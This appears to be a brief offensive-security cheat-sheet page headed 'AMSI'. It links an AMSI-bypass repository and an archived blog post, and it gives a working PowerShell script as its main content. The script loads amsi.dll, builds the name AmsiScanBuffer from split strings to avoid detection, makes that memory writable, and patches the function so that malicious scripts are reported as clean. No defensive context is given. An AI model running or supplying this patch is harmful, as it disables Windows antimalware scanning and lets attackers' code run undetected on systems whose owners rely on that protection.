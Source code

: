 # AMSI

[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Disable-Script-Logging](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Disable-Script-Logging)

```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

```

{% embed url="https://web.archive.org/web/20250228172053/https://en.r-tec.net/r-tec-blog-bypass-amsi-in-2025.html" %}
